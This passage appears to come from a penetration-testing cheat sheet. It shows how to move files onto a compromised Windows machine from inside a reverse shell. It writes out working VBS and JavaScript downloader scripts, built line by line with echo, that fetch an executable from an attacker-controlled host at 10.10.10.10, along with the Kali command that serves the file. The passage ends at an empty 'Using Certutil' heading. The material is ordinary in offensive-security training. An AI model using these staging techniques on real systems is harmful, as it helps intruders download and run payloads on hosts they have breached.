   - Using VBS (Windows)

```bash
# In reverse shell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

# Execute
cscript wget.vbs http://10.10.10.10/file.exe file.exe
```

  - Using javascript (Windows)

```bash
# In Kali
python -m SimpleHTTPServer 80 

# In reverse shell
echo var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1"); >> wget.js
echo WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false); >> wget.js
echo WinHttpReq.Send(); >> wget.js
echo BinStream = new ActiveXObject("ADODB.Stream"); >> wget.js
echo BinStream.Type = 1; >> wget.js
echo BinStream.Open(); >> wget.js
echo BinStream.Write(WinHttpReq.ResponseBody); >> wget.js
echo BinStream.SaveToFile("file.txt"); >> wget.js

cscript /nologo wget.js http://10.10.10.10/file.txt
```

  - Using Certutil (Windows)
